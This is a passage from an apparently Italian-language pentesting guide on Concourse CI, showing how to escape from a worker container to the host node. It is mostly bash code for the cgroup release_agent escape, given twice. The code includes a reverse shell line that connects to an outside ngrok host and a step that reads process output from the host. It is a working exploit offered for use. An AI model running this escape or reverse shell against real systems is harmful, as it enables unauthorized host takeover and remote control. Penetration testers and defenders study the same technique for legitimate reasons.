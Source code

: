 ```bash
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
> [!WARNING]
> Come avrai notato, questo è solo un [**escape regolare di release_agent**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/concourse-security/broken-reference/README.md) modificando semplicemente il percorso del cmd nel nodo

#### Escape al nodo da un contenitore Worker

Un escape regolare di release_agent con una modifica minore è sufficiente per questo:
```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
#### Uscire dal nodo dal contenitore Web
